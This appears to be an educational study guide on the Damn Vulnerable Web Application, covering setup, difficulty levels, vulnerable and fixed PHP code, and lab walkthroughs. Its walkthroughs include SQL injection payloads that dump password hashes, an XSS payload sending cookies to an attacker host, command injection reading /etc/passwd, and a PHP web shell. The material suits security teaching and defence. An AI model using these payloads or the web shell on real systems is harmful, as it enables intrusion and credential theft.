







# Damn Vulnerable Web Application (DVWA)

<!-- SECTION_1_START -->
# Damn Vulnerable Web Application (DVWA)

## 1. Core Technical Definition

**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL based web application that is intentionally designed to be vulnerable to a wide range of common web attacks. It is a legally safe, controlled, and intentionally insecure environment built specifically for security professionals, ethical hackers, penetration testers, and students to practice offensive security skills, learn defensive coding techniques, and understand the mechanics of real-world cyber threats in a sandboxed environment.

> [!NOTE]
> **KTU 2024 Syllabus Definition:** DVWA is an open-source, intentionally vulnerable web application maintained for the purpose of providing a legal environment for security professionals and students to test their offensive and defensive security skills. It is classified under the **OWASP (Open Web Application Security Project) WebGoat-style training tools** in academic literature.

DVWA was originally developed by **Ryan Dewhurst** (also known as ethicalhack3r) under the **GNU General Public License (GPL)**. It supports multiple difficulty levels, allowing users to gradually progress from beginner to advanced exploitation.

## 2. Conceptual Analogy / Intuition

Imagine a **firefighter training facility**. The facility deliberately sets buildings on fire under controlled conditions so that trainees can practice putting them out. The fires are not "real" criminal acts — they are simulations designed for learning. Similarly, DVWA is like a **"controlled burning building"** for the cybersecurity world.

Think of DVWA as a **cybersecurity gym**:

- The **gym equipment** (vulnerabilities) is intentionally weak so beginners can lift it.
- The **trainer** (DVWA's challenge levels) gradually adds weight (difficulty).
- The **safety net** (isolated VM environment) ensures nothing outside the training zone gets hurt.

A student using DVWA is essentially **breaking into their own house to learn how a burglar thinks** — without breaking any real laws.

> [!IMPORTANT]
> **Physical/Engineering Constants & Settings:**
> - Default credentials: **username `admin` / password `password`**
> - Default database: **MySQL on port 3306** (credentials `dvwa / dvwa` by default)
> - Recommended deployment: Inside a **virtual machine** (VirtualBox, VMware) with **internal/NAT networking**.
> - Web server stack: **Apache HTTPD** + **PHP** + **MySQL/MariaDB** (commonly known as the **LAMP stack** — Linux, Apache, MySQL, PHP).
> - Security levels: **Low, Medium, High, Impossible** (4 levels of difficulty).

## 3. Core Purpose in Web Security

DVWA serves three primary academic and industry purposes:

1. **Educational Tool:** Provides hands-on experience with the **OWASP Top 10** vulnerabilities.
2. **Benchmarking Tool:** Allows comparison of attack techniques across different security configurations.
3. **Defensive Learning:** Teaches developers how NOT to write code by demonstrating the consequences of insecure programming.

> [!TIP]
> **Why DVWA Matters for KTU Students:** The KTU 2024 syllabus for *Fundamentals of Cyber Security* (PBCST604), Module 2 (Web Security), explicitly requires students to gain practical exposure to common web application attacks. DVWA provides a zero-cost, legally compliant laboratory for this purpose.

## 4. Visualization Control Block

> [!VISUALIZATION CONTROL]
> **Concept:** DVWA Difficulty Level Progression Curve
> **Conceptual Mapping (Use Desmos graphing calculator):**
> * `f(x) = x` for **Low** (linear, predictable exploitation)
> * `f(x) = x^2` for **Medium** (moderately hardened, requires encoding bypass)
> * `f(x) = x^3` for **High** (anti-CSRF tokens, referer checks, sanitization)
> * `f(x) = \infty` for **Impossible** (whitelisting, prepared statements, password hashing)
> **Visual Description:** The student should observe a curve that grows steeper with each difficulty level, representing the increasing complexity of the security controls and the corresponding skill required to bypass them.

## 5. The Security Levels — An Overview

| Level | Difficulty | Description | Typical Defense Mechanism |
|---|---|---|---|
| **Low** | Beginner | No security measures at all. Code is fully visible and unprotected. | None |
| **Medium** | Intermediate | Partial filtering, basic input validation. | `str_replace()`, simple pattern matching |
| **High** | Advanced | Stronger controls, token-based protections, server-side restrictions. | Anti-CSRF tokens, regex whitelisting |
| **Impossible** | Expert | Industry-standard secure coding practices. | Prepared statements, parameterized queries, hashing, MFA |

> [!IMPORTANT]
> **Critical Point:** The "Impossible" level demonstrates the *correct* way to write secure code. Studying this level is as important as exploiting the lower levels because it teaches **defensive programming**.

## 6. Vulnerabilities Covered by DVWA

DVWA includes a curated set of web vulnerabilities that map directly to the **OWASP Top 10 (2021 edition)** and to the KTU Module 2 syllabus:

1. **Brute Force** — Credential cracking via dictionary and rainbow table attacks.
2. **Command Injection** — OS command execution through unsanitized input.
3. **Cross-Site Request Forgery (CSRF)** — Unauthorized state-changing requests.
4. **File Inclusion** — Local (LFI) and Remote (RFI) file inclusion attacks.
5. **File Upload** — Uploading malicious web shells.
6. **Insecure CAPTCHA** — Bypassing human-verification mechanisms.
7. **SQL Injection** — Bypassing authentication and extracting database contents.
8. **SQL Injection (Blind)** — Inferring data through boolean/time-based responses.
9. **Cross-Site Scripting (Reflected)** — Injecting scripts that execute immediately.
10. **Cross-Site Scripting (Stored)** — Persistent script injection in databases.
11. **Weak Session IDs** — Predicting and hijacking session identifiers.
12. **DOM-based XSS** — Client-side JavaScript injection.

> [!NOTE]
> **Syllabus Highlight:** All of the above vulnerabilities fall under **Module 2: Web Security** of PBCST604. KTU expects students to understand both the *attack vector* and the *defensive countermeasure* for each.

## 7. Installation and Setup Environment

The standard academic deployment of DVWA uses the following stack:

- **Operating System:** Kali Linux, Ubuntu Server, or Windows with XAMPP.
- **Web Server:** Apache HTTP Server (version 2.4 or later).
- **Database:** MySQL (version 5.x or MariaDB 10.x).
- **Scripting Engine:** PHP (version 7.x or 8.x).
- **Network Configuration:** Isolated virtual environment (no public internet exposure).

> [!WARNING]
> **Legal & Ethical Warning:** Never deploy DVWA on a publicly accessible server or on a production network. Always run it inside an isolated virtual machine with no bridge networking to the host or to the internet. Unauthorized use of similar techniques against real systems is a criminal offense under the **IT Act, 2000 (Sections 43, 66, 66F)** of India and the **Computer Misuse Act** of the UK.

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 1. Architecture of DVWA

DVWA is built using a **client-server three-tier architecture**:

1. **Presentation Layer (Client):** Web browser used by the attacker/student.
2. **Application Layer (Server):** Apache + PHP scripts that contain the vulnerable code.
3. **Data Layer (Database):** MySQL/MariaDB storing user credentials, flags, and session data.

When a user interacts with DVWA, the request flows as:

$$\text{Browser (HTTP Request)} \longrightarrow \text{Apache (Web Server)} \longrightarrow \text{PHP (Application Logic)} \longrightarrow \text{MySQL (Database)}$$

The response then flows back in the reverse direction:

$$\text{MySQL (Result Set)} \longrightarrow \text{PHP (HTML Rendering)} \longrightarrow \text{Apache (HTTP Response)} \longrightarrow \text{Browser (Page Display)}$$

## 2. Theoretical Breakdown of Security Levels

### A. LOW Security Level

**Operational Concept:** No protection whatsoever. All inputs are accepted, no sanitization is performed, and SQL queries are constructed using direct string concatenation.

**Code Example (PHP — SQL Injection, Low Level):**

```php
$id = $_REQUEST['id'];

$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query);
```

**Why this is vulnerable:** The user input `$id` is concatenated directly into the SQL query without any escaping, parameterization, or validation. An attacker can inject arbitrary SQL.

**Attack Example (URL):**

$$\texttt{http://localhost/dvwa/vulnerabilities/sqli/?id=1' OR '1'='1}$$

This payload transforms the query to:

$$\text{SELECT first\_name, last\_name FROM users WHERE user\_id = '1' OR '1'='1';}$$

The condition `'1'='1'` is always true, returning **all rows** from the `users` table.

### B. MEDIUM Security Level

**Operational Concept:** Basic filtering using functions like `str_replace()`, `mysqli_real_escape_string()`, and HTML entity encoding.

**Code Example (PHP — SQL Injection, Medium Level):**

```php
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $_POST['id']);

$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

**Why this is partially vulnerable:** The use of `mysqli_real_escape_string()` escapes quotes and special characters, preventing basic injection. However, since the input is **numerical** and not wrapped in quotes in the query, an attacker can use numeric payloads.

**Attack Example:**

$$\texttt{id = 1 OR 1=1}$$

### C. HIGH Security Level

**Operational Concept:** Server-side filtering, input validation against whitelists, and the use of anti-CSRF tokens.

**Code Example (PHP — XSS Reflected, High Level):**

```php
$name = htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
echo "<pre>Hello ${name}</pre>";
```

**Why this is strong:** The `htmlspecialchars()` function with `ENT_QUOTES` converts all special characters to HTML entities, neutralizing script tags.

### D. IMPOSSIBLE Security Level

**Operational Concept:** Industry-standard secure coding using prepared statements, parameterized queries, Content Security Policy (CSP), and PDO (PHP Data Objects).

**Code Example (PHP — SQL Injection, Impossible Level):**

```php
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
$data->execute();
$row = $data->fetch();
```

**Why this is secure:** Prepared statements separate SQL logic from user data entirely. The input is bound as a **typed parameter** (integer in this case), making injection structurally impossible.

## 3. KTU High-Yield Formula Sheet / Cheat Sheet

| Vulnerability | Attack Vector (Low) | Defense Mechanism | OWASP Category |
|---|---|---|---|
| **SQL Injection** | `' OR '1'='1` | Prepared Statements / Parameterized Queries | A03:2021 — Injection |
| **Reflected XSS** | `<script>alert('XSS')</script>` | Input Sanitization + Output Encoding (HTML entities) | A03:2021 — Injection |
| **Stored XSS** | Script in user profile field | HTML entity encoding on save + CSP headers | A03:2021 — Injection |
| **CSRF** | Malicious link with pre-filled form | Anti-CSRF tokens + SameSite cookies | A01:2021 — Broken Access Control |
| **Command Injection** | `; ls -la` or `\vert` ` netcat` | Input whitelisting + `escapeshellarg()` | A03:2021 — Injection |
| **LFI/RFI** | `?page=../../../../etc/passwd` | Whitelist of allowed pages + `basename()` | A01:2021 — Broken Access Control |
| **File Upload** | Upload `shell.php` | Extension whitelist + MIME type validation + non-executable upload directory | A04:2021 — Insecure Design |
| **Brute Force** | Dictionary attack via Hydra | Account lockout + rate limiting + CAPTCHA | A07:2021 — Authentication Failures |
| **Weak Session IDs** | Predicting sequential `dvwaSession=1` | Cryptographically random session tokens (e.g., `bin2hex(random_bytes(32))`) | A07:2021 — Authentication Failures |
| **DOM XSS** | `#<script>alert(1)</script>` in URL fragment | Avoid `document.write()` and `innerHTML`; use `textContent` | A03:2021 — Injection |
| **Insecure CAPTCHA** | Bypassing client-side validation | Server-side CAPTCHA verification + token validation | A04:2021 — Insecure Design |

> [!IMPORTANT]
> **Encoding Reference for XSS Payloads:**
> - `<` becomes `&lt;`
> - `>` becomes `&gt;`
> - `"` becomes `&quot;`
> - `'` becomes `&#039;`
> - `&` becomes `&amp;`

## 4. Real-World Engineering Utility

DVWA is widely used in:

- **Industry Penetration Testing Labs:** Companies train new hires using DVWA-style applications before they are allowed to test production systems.
- **Academic Curricula:** Universities worldwide (including IITs, NITs, and international equivalents) use DVWA in cybersecurity courses.
- **Bug Bounty Preparation:** DVWA helps beginners understand the structure of common vulnerabilities before participating in programs on HackerOne, Bugcrowd, or Open Bug Bounty.
- **Red Team / Blue Team Exercises:** DVWA serves as a controlled target in CTF (Capture the Flag) competitions and corporate security drills.
- **Secure Code Review Training:** Developers use DVWA to learn *what insecure code looks like*, which improves their ability to identify vulnerabilities in code reviews.

> [!TIP]
> **Industry Connection:** The skills practiced on DVWA translate directly to professional penetration testing tools like **Burp Suite, OWASP ZAP, Nikto, Nmap, SQLMap, and Hydra**.

## 5. The DVWA Source Code Structure

When a student opens DVWA's `vulnerabilities` directory, they encounter the following structure:

```
dvwa/
├── vulnerabilities/
│   ├── sqli/
│   │   ├── source/
│   │   │   ├── low.php
│   │   │   ├── medium.php
│   │   │   ├── high.php
│   │   │   └── impossible.php
│   │   └── index.php
│   ├── xss_r/
│   ├── xss_s/
│   ├── csrf/
│   ├── fi/
│   ├── upload/
│   ├── brute/
│   ├── exec/
│   ├── captcha/
│   ├── weak_id/
│   └── ...
├── setup.php
├── login.php
├── index.php
└── security.php
```

The `security.php` file contains the difficulty-level configuration:

```php
$_DVWA['default_security_level'] = 'low'; // Options: low, medium, high, impossible
```

> [!IMPORTANT]
> **Key Insight:** The "View Source" or "View Help" buttons inside DVWA's challenge pages reveal the actual source code. This is a unique learning feature — students can *see* the vulnerability and the fix side by side.

## 6. Mathematical Model of Brute Force Attack

The time required to brute-force a password can be modeled as:

$$T = \frac{N^k}{R}$$

Where:
- $T$ = time to crack (in seconds)
- $N$ = size of character set (e.g., $26$ for lowercase, $62$ for alphanumeric, $94$ for printable ASCII)
- $k$ = password length
- $R$ = rate of password attempts per second

**Example:** For an 8-character lowercase password at a rate of 1000 attempts/second:

$$T = \frac{26^8}{1000} = \frac{208827064576}{1000} \approx 2.09 \times 10^8 \text{ seconds} \approx 6.62 \text{ years}$$

> [!WARNING]
> **Pitfall:** Modern GPU-based cracking tools (like **Hashcat** using NVIDIA RTX 4090) can achieve billions of attempts per second, reducing this time dramatically. This is why password complexity, salting, and slow hashing algorithms (bcrypt, Argon2) are critical.

## 7. SQL Injection Boolean Logic Model

A successful SQL injection bypasses authentication by injecting a **tautology** (an expression that is always true). The standard model is:

$$P(\text{Inject}) = \begin{cases} 1 & \text{if unsanitized input reaches SQL parser} \\ 0 & \text{if prepared statements or strong filtering are used} \end{cases}$$

The injected condition is typically of the form:

$$C_{\text{attack}} = 1 \text{ OR } 1=1$$

Which is logically equivalent to:

$$C_{\text{attack}} \equiv \text{TRUE}$$

Hence, the WHERE clause evaluates to TRUE for every row in the table.

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Derivations, Code Implementations & Practical Procedures

## 1. Complete Installation Procedure (Kali Linux / Ubuntu)

### Step 1: Update the System

Open a terminal and execute:

```bash
sudo apt update
sudo apt upgrade -y
```

### Step 2: Install the LAMP Stack

```bash
sudo apt install apache2 mariadb-server php php-mysqli php-gd libapache2-mod-php -y
```

**Explanation:**
- `apache2` — the web server that serves HTTP requests.
- `mariadb-server` — the database server (MySQL-compatible).
- `php` — the scripting engine that processes PHP files.
- `php-mysqli` — the MySQL improved extension for PHP.
- `php-gd` — the GD graphics library (required for DVWA's CAPTCHA module).
- `libapache2-mod-php` — the Apache module that enables PHP processing.

### Step 3: Start and Enable Services

```bash
sudo systemctl start apache2
sudo systemctl enable apache2
sudo systemctl start mariadb
sudo systemctl enable mariadb
```

### Step 4: Configure MariaDB

```bash
sudo mysql_secure_installation
```

Set a root password and answer `Y` to all security prompts.

### Step 5: Create the DVWA Database and User

```bash
sudo mysql -u root -p
```

Inside the MySQL shell:

```sql
CREATE DATABASE dvwa;
CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'dvwa';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

### Step 6: Download DVWA

```bash
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
sudo chown -R www-data:www-data DVWA
sudo chmod -R 755 DVWA
```

### Step 7: Configure DVWA

```bash
cd /var/www/html/DVWA/config
sudo cp config.inc.php.dist config.inc.php
sudo nano config.inc.php
```

Edit the following lines:

```php
$_DVWA['db_server']   = '127.0.0.1';
$_DVWA['db_database'] = 'dvwa';
$_DVWA['db_user']     = 'dvwa';
$_DVWA['db_password'] = 'dvwa';
$_DVWA['recaptcha_public_key']  = '';
$_DVWA['recaptcha_private_key'] = '';
```

### Step 8: Configure PHP for File Upload Vulnerabilities

```bash
sudo nano /etc/php/8.2/apache2/php.ini
```

Set the following values (search using `Ctrl + W`):

```ini
allow_url_include = On
file_uploads = On
upload_max_filesize = 100M
post_max_size = 100M
```

> [!IMPORTANT]
> **Critical Configuration:** `allow_url_include = On` is required for **Remote File Inclusion (RFI)** exercises. In production environments, this should always be **Off**.

### Step 9: Restart Apache

```bash
sudo systemctl restart apache2
```

### Step 10: Access DVWA

Open a browser and navigate to:

$$\texttt{http://localhost/DVWA/setup.php}$$

Click the **"Create / Reset Database"** button. Then navigate to the login page:

$$\texttt{http://localhost/DVWA/login.php}$$

Login with:

$$\texttt{Username: admin} \quad \vert \quad \texttt{Password: password}$$

> [!TIP]
> **Verification Step:** After login, you should see the DVWA main menu with all vulnerability modules listed. If the page displays PHP errors, check the `config/config.inc.php` file and ensure database credentials are correct.

---

## 2. Exhaustive SQL Injection Walkthrough (Low Level)

### Objective: Extract all usernames and password hashes from the `users` table.

### Step 1: Determine the Number of Columns

Use the `ORDER BY` technique:

$$\texttt{http://localhost/dvwa/vulnerabilities/sqli/?id=1' ORDER BY 1 -- -&Submit=Submit}$$

$$\texttt{http://localhost/dvwa/vulnerabilities/sqli/?id=1' ORDER BY 2 -- -&Submit=Submit}$$

$$\texttt{http://localhost/dvwa/vulnerabilities/sqli/?id=1' ORDER BY 3 -- -&Submit=Submit}$$

If `ORDER BY 3` fails with an error, the table has **2 columns**.

### Step 2: Identify Column Names Using UNION

$$\texttt{http://localhost/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1,2 -- -&Submit=Submit}$$

The page will display `1` and `2` on screen, confirming the two columns are reflected.

### Step 3: Enumerate the Database Version and Current User

$$\texttt{http://localhost/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT version(),user() -- -&Submit=Submit}$$

This returns something like:

$$\texttt{10.5.21-MariaDB-1} \quad \vert \quad \texttt{dvwa@localhost}$$

### Step 4: Extract All Usernames and Password Hashes

$$\texttt{http://localhost/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT user,password FROM users -- -&Submit=Submit}$$

This displays the full `users` table with MD5-hashed passwords.

### Step 5: Crack the MD5 Hashes

Copy the hash (e.g., `5f4dcc3b5aa765d61d8327deb882cf99`) and use an online MD5 cracker or `hashcat` locally:

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

The cracked result for the above hash is **`password`** (the default DVWA password).

---

## 3. Complete Reflected XSS Payload (Low Level)

### Step 1: Navigate to the XSS Reflected Module

$$\texttt{http://localhost/dvwa/vulnerabilities/xss_r/}$$

### Step 2: Inject the Following Script

$$\texttt{<script>alert('XSS Successful')</script>}$$

If the page displays a JavaScript alert popup, the XSS vulnerability is confirmed.

### Step 3: Cookie Stealing Payload (For Educational Lab Use)

Create a PHP listener on your attacker machine (e.g., a second VM):

```php
<?php
$cookie = $_GET['cookie'];
$file = fopen("stolen.txt", "a");
fwrite($file, $cookie . "\n");
fclose($file);
?>
```

Inject the following into DVWA:

```html
<script>
  document.location = 'http://attacker-ip/steal.php?cookie=' + document.cookie;
</script>
```

> [!WARNING]
> **Ethical Restriction:** This technique is demonstrated only in isolated lab environments. Using it against any system without explicit written authorization is a criminal offense.

---

## 4. Command Injection Exploitation (Low Level)

### Vulnerable Code:

```php
$target = $_REQUEST['ip'];
$cmd = shell_exec('ping -c 4 ' . $target);
```

### Exploitation:

$$\texttt{127.0.0.1; ls -la}$$

This appends a second command (`ls -la`) after the ping command. Since the `;` is a shell command separator, the OS executes both commands.

### More Dangerous Payload:

$$\texttt{127.0.0.1 && cat /etc/passwd}$$

This reads the system's password file, revealing all user accounts on the Linux server.

### Defense (Impossible Level):

```php
$target = stripslashes($target);
$target = explode(".", $target);
if (
    is_numeric($target[0]) && is_numeric($target[1]) &&
    is_numeric($target[2]) && is_numeric($target[3])
) {
    $cmd = shell_exec('ping -c 4 ' . $target[0] . '.' . $target[1] . '.' . $target[2] . '.' . $target[3]);
}
```

This code **splits the input by dots** and validates that all four octets are numeric, ensuring the input is a valid IPv4 address.

---

## 5. File Upload Attack (Low Level)

### Objective: Upload a PHP web shell.

### Step 1: Create a PHP Web Shell

```php
<?php
if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>
```

Save this as `shell.php`.

### Step 2: Upload the File

Navigate to **Vulnerabilities → File Upload** and upload `shell.php`.

### Step 3: Locate the Uploaded File

The file is stored in:

$$\texttt{/var/www/html/DVWA/hackable/uploads/shell.php}$$

### Step 4: Execute Commands

$$\texttt{http://localhost/dvwa/hackable/uploads/shell.php?cmd=id}$$

This displays the output of the `id` command, showing the web server's user identity.

### Defense:

```php
$uploaded_ext = pathinfo($target_file, PATHINFO_EXTENSION);
$allowed_exts = array('jpg', 'jpeg', 'png', 'gif');
if (!in_array($uploaded_ext, $allowed_exts)) {
    echo "Only image files are allowed.";
    $upload_ok = false;
}
```

---

## 6. CSRF Attack Demonstration (Low Level)

### Objective: Change the victim's password without their knowledge.

### Step 1: Capture the Original Request

When the victim changes their password, the browser sends:

$$\texttt{http://localhost/dvwa/vulnerabilities/csrf/?password\_new=hacked\&password\_conf=hacked\&Change=Change}$$

### Step 2: Craft a Malicious HTML Page

```html
<html>
  <body>
    
  </body>
</html>
```

When the victim visits this page (while logged into DVWA), their browser automatically sends the request, changing their password.

### Defense (Impossible Level):

The Impossible level requires the user to enter their **current password** before changing it, preventing CSRF attacks.

---

## 7. CSRF Token Validation (High Level Defense)

The High-level CSRF defense uses a **synchronizer token pattern**:

```php
// Server generates a unique token
$_SESSION['token'] = bin2hex(random_bytes(32));

// Token is embedded in the form
echo "<input type='hidden' name='token' value='" . $_SESSION['token'] . "' />";

// On form submission, the server validates the token
if ($_POST['token'] !== $_SESSION['token']) {
    die("CSRF token validation failed.");
}
```

**Why this works:** An attacker cannot guess or obtain the token because it is cryptographically random and tied to the user's session.

---

## 8. Secure Session ID Generation (Impossible Level)

```php
// DVWA's strong session ID generation
